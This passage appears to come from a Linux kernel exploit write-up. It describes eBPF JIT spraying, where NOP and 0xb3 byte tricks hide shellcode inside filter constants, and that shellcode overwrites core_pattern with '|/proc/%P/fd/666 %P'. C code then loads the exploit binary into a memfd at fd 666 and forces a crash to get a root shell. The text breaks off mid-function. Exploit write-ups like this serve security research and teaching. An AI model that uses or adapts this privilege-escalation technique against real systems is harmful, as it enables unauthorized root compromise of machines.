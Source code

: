 As for the shellcode in our eBPF program, our goal is to overwrite  `/proc/sys/kernel/core_pattern` so later we can execute command as root by triggering crash. Here's what our shellcode did to achieve our goal:
* Use the `rdmsr` instruction to obtain the kernel text address. With RCX being set to MSR_LSTAR ( `0xc0000082` ), we'll be able to obtain the address of `entry_SYSCALL_64`.
* Calculate the address of `core_pattern` and `_copy_from_user`.
* Call `_copy_from_user(core_pattern, user_buf, 0x30);`, where `user_buf` is a buffer in user space that stores the content we want to overwrite in `core_pattern`. 

We construct our eBPF program with the following form:

```cpp
struct sock_filter table[] = {
        {.code = BPF_LD + BPF_K, .k = 0xb3909090},
        {.code = BPF_LD + BPF_K, .k = 0xb3909090},
        .....................
};
```

The above example will be compiled into the following instructions after JIT:

```
b8 90 90 90 b3    mov eax, 0xb3909090
b8 90 90 90 b3    mov eax, 0xb3909090
```

If we can control kernel RIP to jump into the NOP instruction ( 0x90 ), the code will become:

```
90       nop 
b3 b8    mov    bl, 0xb8
90       nop
90       nop
90       nop
b3 b8    mov    bl, 0xb8
....
```

We can see that by using an extra byte `0xb3`, we can skip the useless byte `0xb8` and execute our own shellcode. Notice that due to the "skipping part", we only have 3 bytes of space in each instruction, so we'll have to take care of that as well during our shellcode construction.

### Post RIP

Once we control the kernel RIP and jump into the middle of our eBPF program, the shellcode we crafted will cause core_pattern being overwritten to `|/proc/%P/fd/666 %P`:

We then use memfd and write an executable file payload in fd 666.
```C
int check_core()
{
	// Check if /proc/sys/kernel/core_pattern has been overwritten
	char buf[0x100] = {};
	int core = open("/proc/sys/kernel/core_pattern", O_RDONLY);
	read(core, buf, sizeof(buf));
	close(core);
	return strncmp(buf, "|/proc/%P/fd/666", 0x10) == 0;
}
void crash(char *cmd)
{
	int memfd = memfd_create("", 0);
	SYSCHK(sendfile(memfd, open("/proc/self/exe", 0), 0, 0xffffffff));
	dup2(memfd, 666);
	close(memfd);
	while (check_core() == 0)
		sleep(1);
	puts("Root shell !!");
	/* Trigger program crash and cause kernel to executes program from core_pattern which is our "root" binary */
```